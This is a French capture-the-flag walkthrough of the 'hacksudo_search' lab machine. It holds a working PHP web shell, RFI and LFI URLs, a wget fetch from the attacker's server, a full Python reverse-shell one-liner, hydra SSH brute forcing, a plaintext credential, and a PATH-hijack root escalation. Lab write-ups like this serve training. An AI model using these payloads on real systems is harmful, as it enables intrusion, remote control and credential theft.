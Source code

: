 # Nmap
 
   nmap hacksudo_search -A
 
   PORT   STATE SERVICE VERSION
   22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
   | ssh-hostkey:
   |   2048 7b:44:7c:da:fb:e5:e6:1d:76:33:eb:fa:c0:dd:77:44 (RSA)
   |   256 13:2d:45:07:32:83:13:eb:4e:a1:20:f4:06:ba:26:8a (ECDSA)
   |_  256 21:a1:86:47:07:1b:df:b2:70:7e:d9:30:e3:29:c2:e7 (ED25519)
   80/tcp open  http    Apache httpd 2.4.38 ((Debian))
   |_http-server-header: Apache/2.4.38 (Debian)
   |_http-title: HacksudoSearch
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
 
# Enumération Web
 
   gobuster dir -u http://hacksudo_search -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 
Grace à un gobuster on trouve la page search1.php (avec l'option pour les extensions php)
 
# Première méthode: RFI*
 
 
Dans notre répertoire courant, on crée le fichier rfi.php tel que:
 
   <?php
   echo "<script>alert(Archimed own you);</script>";
   echo "Run command: ".htmlspecialchars($_GET['cmd']);
 
   system($_GET['cmd']);
   ?>
 
On créer un serveur HTTP à la volé à l'aide de python3:
 
   python -m http.server 8000
 
Puis on exploite la RFI avec le paramètre &cmd=id (pour vérifier que cela fonctionne) comme suit:
 
   http://192.168.0.37/search1.php?me=http://192.168.0.10:8000/rfi.php&cmd=id
 
Il est possible d'uploader un fichier sur le site internet en utilisant 'wget' et en plaçant un fichier malicieux sur notre serveur http provisoir
 
   http://192.168.0.37/search1.php?me=http://192.168.0.10:8000/rfi.php&cmd=wget+http://192.168.0.10:8000/rfi.php
 
Nous pouvons uploader le shell yolo.php
 
Lorsque nous accédons à la page http://hacksudo_search/yolo.php nous pouvons maintenant exécuter des commandes.
 
Avant toute chose, nous plaçons un netcat en écoute pour pouvoir y "envoyer" un shell
 
   netcat -lvnp 4242
 
Après avoir essayé quelques payload avec netcat et bash, c'est une reverse payload python qui à réussi à fonctionner:
 
   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.10",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
 
# Seconde méthode: LFI
 
## Recherche de la LFI
 
En cliquant sur "Contact" on remarque qu'il est possible de passer des paramètres dans l'URL suivant:
 
   http://192.168.0.37/search1.php?FUZZ=contact.php
 
Il s'agit d'un indice non négligeable.
Essayons donc de "fuzzer" ce terme pour voir si une LFI est présente:
 
   wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.0.37/search1.php?FUZZ=../../../../../../../../etc/passwd
 
(On note le nombre de ligne qu'il y a sur les réponses "générique" et on ajoute l'option --hl (hide line) pour cacher ces réponses là et n'avoir que les réponses particulière)
 
   wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.0.37/search1.php?FUZZ=../../../../../../../../etc/passwd --hl 137
 
 
La LFI:
 
   http://192.168.0.37/search1.php?me=../../../../../../../etc/passwd
 
Cela nous permet d'avoir des users, maintenant pour les mot de passes essayons le fichier .env du répertoire courant:
 
   http://192.168.0.37/search1.php?me=.env
 
## BruteForce avec Hydra
 
bruteforce sur le service SSH à l'aide de hydra:
 
   hydra -L user -P pass 192.168.0.37 ssh
 
On trouve les crédentials suivants:
 
hacksudo:MyD4dSuperH3r0!
 
 
# Privilège Escalation
 
Une fois connecté, en utilisant linpeas.sh (télécharger à l'aide d'un get) on se rend comte qu'un fichier ./searchinstall possède un stickybit.
On peut aussi trouver à l'aide de ls -al -R (dans le répertoire de hacksudo).
ou la commande find permettant de trouver les sticky bits.
 
Le code C non compilé se trouve aussi dans le répertoire, on observe le code, il permet d'utiliser la commande "install" en temps que root (mais sans argument possible, donc impossible d'utiliser la méthode de GTFOBins).
 
On crée alors un fichier install comme suit:
 
   #!/bin/bash
   bash
 
On ajoute les droit d'exec, puis on ajoute le PATH du répertoire
 
export PATH = /home/hacksudo/search/tools:$PATH
 
En faisant ./searchinstall cela va chercher la commande install que nous avons créer et l'exécuter en temps que root. Dans ce cas précis, cela va nous fournir un shell bash avec les droits root.
 
 
 



